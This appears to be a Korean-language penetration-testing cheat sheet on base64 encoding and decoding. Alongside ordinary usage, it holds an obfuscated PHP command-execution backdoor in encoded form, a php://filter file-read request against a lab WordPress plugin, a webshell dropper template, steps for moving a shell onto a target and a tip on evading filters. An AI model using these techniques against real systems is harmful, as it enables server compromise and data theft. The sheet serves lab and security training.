 # base64 - 인코딩/디코딩

---

## 📌 패딩(`=`)이란? → **진짜 중요**

- `Base64`는 3바이트(24비트)를 6비트씩 4개로 쪼개 문자로 인코딩함.
- 원본 데이터가 3바이트 단위가 아니면 6비트를 채우기 위해 `=` 또는 `==`을 **패딩 문자**로 붙임.

| 원본 바이트 수 | 인코딩 후 길이 | 패딩 |
| -------------- | -------------- | ---- |
| 3의 배수       | 정확히 4n      | 없음 |
| 2바이트        | 3 + `=`        | 1개  |
| 1바이트        | 2 + `==`       | 2개  |

🔒 패딩은 **데이터 정렬을 위한 것**이지, **암호화나 보안 요소는 아님**
🛠️ 실전에서는 일부 도구나 웹 필터 우회를 위해 **패딩이 생략**되기도 함
✅ `base64 -d`는 패딩이 없어도 자동으로 보정하여 **디코딩 잘됨**

```bash
# 패딩 있는 경우
echo -n "A" | base64         # → QQ==
# 패딩 없는 버전
echo -n "QQ==" | tr -d '=' | base64 -d
```

---

## 주요 옵션

- `-d`, `--decode` : 디코딩 모드
- `-i`, `--ignore-garbage` : 디코딩 시 base64 문자가 아닌 것 무시
- `-w`, `--wrap=COLS` : COLS 바이트마다 줄바꿈 (기본 76, 0은 줄바꿈 없음)
- `-n` : `echo` 명령어에서 사용, 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

---

## 기본 명령어

### 텍스트 변환

```bash
# text → base64
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
# echo -n : 마지막 개행 문자 제거 (base64 인코딩/디코딩 시 오류 방지)

# base64 → text, tr -> tr.md 문서 확인
echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw | base64 -d
echo -n "YOUR_STRING_HERE" | tr -d '\n\r ' | base64 -d
echo -n "YWRtaW46cGFzc3dvcmQ=" | base64 -d  # admin:password
echo -n "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | tr -d '=' | base64 -d

# curl 로 한 번에 확인
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/read=convert.base64-encode/resource=../../hello.php" > hello.b64
base64 -d hello.b64 > hello.php

```

---

### 파일 처리

```bash
# 파일 → base64 (줄바꿈 포함)
base64 shell.php > shell.b64

# 파일 → base64 (한 줄로)
base64 -w 0 shell.php > shell.b64

# base64 → 파일
base64 -d shell.b64 > shell.php
cat shell.b64 | base64 -d > shell.php
```

---

## 깨지는 경우 파이썬으로

### Python

```bash
# 인코딩
python3 -c "import base64; print(base64.b64encode(b'비밀번호').decode())"

# 디코딩
python3 -c "import base64; print(base64.b64decode('67Cx66Gd67KI7Zi4').decode())"

# 파일 인코딩
python3 -c "import base64, sys; print(base64.b64encode(open(sys.argv[1], 'rb').read()).decode())" shell.php
```

---

### 원라이너

```bash
# 명령어 인코딩 후 실행
echo -n "cat /etc/passwd" | base64     # Y2F0IC9ldGMvcGFzc3dk
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash     # 원격지에서 실행
```

---

## 침투 활용

### 파일 전송

```bash
# 공격자 → 대상 서버
base64 -w 0 shell.php > shell.txt     # 로컬에서 인코딩
# shell.txt 내용을 복사하여 타겟 서버에 붙여넣기
base64 -d > shell.php << 'EOF'        # 타겟에서 실행
[붙여넣은 내용]
EOF
```

---

### 웹쉘 우회

```bash
# 기본 디코딩 웹쉘 템플릿
<?php
$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode($data));
?>

# 파일로 저장
echo "<?php
\$data = '디코딩할문자열';
file_put_contents('shell.php', base64_decode(\$data));
?>" > decode.php

# 실행
php decode.php
```

---

### Basic 인증

```bash
# Basic 인증 헤더 생성
echo -n "admin:password" | base64     # YWRtaW46cGFzc3dvcmQ=
curl -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ=" https://target.com/
```

---
